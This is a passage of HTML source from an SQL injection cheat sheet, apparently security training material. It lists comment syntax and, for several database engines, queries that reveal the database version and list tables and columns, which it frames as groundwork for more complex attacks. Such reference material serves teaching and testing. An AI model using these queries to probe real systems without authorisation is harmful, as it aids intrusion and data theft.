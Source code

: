                     <code>/*comment*/</code>
                </td>
            </tr>
        </tbody></table>
        <h2 id="database-version">Database version</h2>
        <p>
            You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.
        </p>
        <table class="is-nonresponsive-table">
            <tbody><tr>
                <th>
                    Oracle
                </th>
                <td><code>
                    SELECT banner FROM v$version<br>
                    SELECT version FROM v$instance<br>
                </code></td>
            </tr>
            <tr>
                <th>
                    Microsoft
                </th>
                <td><code>
                    SELECT @@version
                </code></td>
            </tr>
            <tr>
                <th>
                    PostgreSQL
                </th>
                <td><code>
                    SELECT version()
                </code></td>
            </tr>
            <tr>
                <th>
                    MySQL
                </th>
                <td><code>
                    SELECT @@version
                </code></td>
            </tr>
        </tbody></table>
        <h2 id="database-contents">Database contents</h2>
        <p>
            You can list the tables that exist in the database, and the columns that those tables contain.
        </p>
        <table class="is-nonresponsive-table">
            <tbody><tr>
                <th>
                    Oracle
                </th>
                <td><code>
                    SELECT * FROM all_tables<br>
                    SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
                </code></td>
            </tr>
            <tr>
                <th>
                    Microsoft
                </th>
                <td><code>
                    SELECT * FROM information_schema.tables<br>